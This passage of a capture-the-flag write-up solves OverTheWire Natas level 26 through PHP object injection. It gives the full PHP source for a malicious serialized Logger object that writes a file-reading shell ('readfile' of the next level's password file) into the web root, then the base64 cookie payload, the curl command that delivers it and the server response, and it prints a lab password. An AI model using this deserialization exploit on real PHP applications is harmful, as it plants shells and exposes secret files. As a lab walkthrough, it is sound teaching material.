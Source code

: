 Let's write a custom class Logger that we will serialize and base64-encode. We'll then inject the base64 string in our session cookie.

*Note: If you don't have a PHP interpreter you can use one online (e.g. http://sandbox.onlinephpfunctions.com/)*

```php
<?php
class Logger{
	private $logFile;
	private $initMsg;
	private $exitMsg;
	function __construct(){
		$this->initMsg = "\n";
		$this->exitMsg = "<?php readfile('/etc/natas_webpass/natas27'); ?>\n";
		$this->logFile = "img/secret.php";
	}
}
$oLogger = new Logger();
print(base64_encode(serialize($oLogger)));
?>
```

Here is the output of the script above:
~~~
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxNDoiaW1nL3NlY3JldC5waHAiO3M6MTU6IgBMb2dnZXIAaW5pdE1zZyI7czoxOiIKIjtzOjE1OiIATG9nZ2VyAGV4aXRNc2ciO3M6NDk6Ijw/cGhwIHJlYWRmaWxlKCcvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA/PgoiO30=
~~~

Let's send this in the `drawing` cookie (we'll save `PHPSESSID` in the same time):

~~~
$ curl -s \
	--user natas26:oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T \
	--cookie "drawing=Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxNDoiaW1nL3NlY3JldC5waHAiO3M6MTU6IgBMb2dnZXIAaW5pdE1zZyI7czoxOiIKIjtzOjE1OiIATG9nZ2VyAGV4aXRNc2ciO3M6NDk6Ijw/cGhwIHJlYWRmaWxlKCcvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA/PgoiO30=" \
	http://natas26.natas.labs.overthewire.org/
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas26", "pass": "oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T" };</script></head>
<body>

<h1>natas26</h1>
<div id="content">

Draw a line:<br>
<form name="input" method="get">
X1<input type="text" name="x1" size=2>
Y1<input type="text" name="y1" size=2>
X2<input type="text" name="x2" size=2>
Y2<input type="text" name="y2" size=2>
<input type="submit" value="DRAW!">
</form> 

<img src="img/natas26_gqk76tq2p7u8osrmb2b571m4l7.png"><br />
<b>Fatal error</b>:  Cannot use object of type Logger as array in <b>/var/www/natas/
~~~